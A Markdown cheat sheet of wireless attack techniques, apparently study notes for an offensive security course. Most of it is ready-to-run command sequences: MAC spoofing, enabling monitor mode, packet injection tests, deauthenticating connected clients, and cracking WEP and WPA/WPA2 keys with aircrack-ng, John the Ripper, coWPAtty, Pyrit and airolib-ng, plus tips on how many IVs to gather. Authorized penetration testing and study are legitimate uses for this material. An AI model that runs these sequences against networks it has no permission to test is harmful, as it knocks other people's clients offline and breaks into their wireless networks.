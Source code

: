 ```yaml
---
title: Wireless Attacks Cheat Sheet
tags:
  - OffSec
  - Wireless
date: 2020-06-29
---
```



# Wireless

### MAC

```shell
root@bt:~# macchanger --show <interface name>
Current MAC: 00:f1:40:93:00:f5 (unknown)

#  Set the MAC XX:XX:XX:XX:XX:XX
macchanger --mac=XX:XX:XX:XX:XX:XX mon0
```

### Open the Monitor Mode

```shell
root@bt:~# airmon-ng check kill && ifconfig wlan1 down && iwconfig wlan1 mode monitor && ifconfig wlan1 up && airmon-ng start wlan1 3
root@bt:~# airmon-ng check kill && ifconfig mon0 down && iwconfig mon0 mode monitor && ifconfig mon0 up

iwconfig <interface name> mode monitor channel <channel number>
```

## Injection Test

#### Basic Injection Test

(Single Card)

```shell
root@bt:~# aireplay-ng -9 <interface name>
root@bt:~# aireplay-ng -9 mon0
```

#### Injection Test for Hidden or Specific SSID

```shell
root@bt:~# aireplay-ng -9 -e <ESSID> -a <AP MAC> <interface name>
root@bt:~# aireplay-ng -9 -e 'STAGE TEST' -a 08:57:00:64:2E:B0 mon0
```

#### Card-to-Cad (Attack) Injection Test

(Two Cards)

```shell
root@bt:~# aireplay-ng -9 -i <input interface> <interface name>
```

# Wired Equivalent Privacy (WEP)

## Open Authentication

### Cracking WEP with Connected Clients

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
aircrack-ng <capture>
```

### Cracking WEP via a Client

```
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
aireplay-ng -2 -b <AP MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <interface>
aircrack-ng -z <capture>
```

### Cracking Clientless WEP Networks

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>

# Run attack 4, the KoreK chopchop attack (or attack 5, the fragmentation attack):
aireplay-ng -4 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -5 -b <AP MAC> -h <Your MAC> <interface> (Need Card Support)

packetforge-ng -0 -a <AP MAC> -h <Your MAC> -l <Source IP> -k <Dest IP> -y
<xor filename> -w <output filename>
# packetforge-ng -0 -a 08:57:00:64:2E:B0 -h 00:f1:40:93:00:f5 -l 192.168.1.113 -k 192.168.1.255 -y replay_dec-0705-020358.xor -w arp-korek

aireplay-ng -2 -r <packet filename> <interface>
aircrack-ng <capture>
```

## Shared Key Authentication

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

aireplay-ng -1 0 -e <ESSID> -y <keystream file> -a <AP MAC> -h <Your MAC>
<interface>
# aireplay-ng -1 6000 -e 'STAGE TEST' -y wepshared-01-08-57-00-64-2E-B0.xor -a 08:57:00:64:2E:B0 -h 94:0c:6d:7c:ca:73 mon0

aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
aircrack-ng <capture>
```

# WPA/WPA2

## Cracking WPA/WPA2 PSK with Aircrack-ng

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a<AP MAC> -c <Client MAC> <interface>
# dictionary mode
aircrack-ng -w <wordlist> <capture>

# Airolib-ng database
aircrack-ng -r <db name> <capture>
```

## Cracking WPA with JTR and Aircrack-ng

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <ESSID> -w - <capture>
```

## Cracking WPA with coWPAtty

```shell
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

genpmk -f <wordlist> -d <hashes filename> -s <ESSID>
genpmk -f /pentest/passwords/john/password.lst -d wifuhashes -s 'STAGE TEST WPA'

cowpatty -r <capture> -d <hashes filename> -2 -s <ESSID>
```

## Cracking WPA with Pyrit

```shell
airmon-ng start <interface> <AP channel>
pyrit -r <interface> -o <capture> stripLive
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

# dictionary mode
pyrit -r <capture> -i <wordlist> -b <AP MAC> attack_passthrough

# database mode
pyrit -i <wordlist> import_passwords
pyrit -e <ESSID> create_essid
pyrit batch
pyrit -r <capture> -b <AP MAC> attack_db
```

## Airolib-ng

```shell
echo wifu > essid.txt
airolib-ng <db name> --import essid <essid filename>
airolib-ng <db name> --import passwd <wordlist>
airolib-ng <db name> --clean all
airolib-ng <db name> --stats
airolib-ng <db name> --batch
airolib-ng <db name> --verify all
aircrack-ng -r <db name> <capture>
```

# General Approach to Cracking WEP Keys

- Typically, you need 250000 or more unique IVs for 64-bit keys and 1.5 million or more for 128-bit keys.

- Generally speaking, don’t try to crack the WEP key until you have at least 100000 IVs.

- Start by trying 64-bit keys with `aircrack-ng -n 64 <capture filename>`. If 64-bit WEP is used, it can usually be cracked in less than 5 minutes and usually less than 60 seconds with relatively few IVs. If the 64-bit key is not found in 5 minutes, restart Aircrack in generic mode with `aircrack-ng <capture filename>` and then, at each 100000 IVs mark, retry `aircrack-ng -n 64 <capture filename>` for 5 minutes.

- Once you hit 600000 IVs, switch to testing 128-bit keys.

- Once you hit 2 million IVs, try changing the fudge factor to ‘-f 4’ and run it for at least 30 minutes and up to one hour. Retry, increasing the fudge factor by adding 4 to it each time. You should also try increasing the fudge factor whenever Aircrack-ng stops after having tried all possible keys.

- All the while, keep collecting data. Remember the golden rule: “the more IVs, the better”. Also, check the next section on how to determine which options to use as these can significantly speed up cracking the WEP key. For example, if the key is entirely numeric, then it can take as few as 50000 IVs to crack a 64-bit key with the ‘-t’ parameter versus 200000 IVs without it. So if you have a hunch about the WEP key, it is worth trying a few variations.

- The number of unique IVs that you need varies drastically depending on a number of factors. You can consider the following as a rough guideline:
    ○ FMS/KoreK 64-bit—250,000 Unique IVs
    ○ FMS/KoreK 128-bit—1,500,000 Unique IVs
    ○ PTW 64-bit—20,000 packets
    ○ PTW 128-bit—40,000-85,000 packets

    

|        Encryption         |    Password    |  Ivs  |
| :-----------------------: | :------------: | :---: |
| WEP - Open Authentication | AA:BB:CC:DD:EE | 16875 |
|                           |                |       |
|                           |                |       |

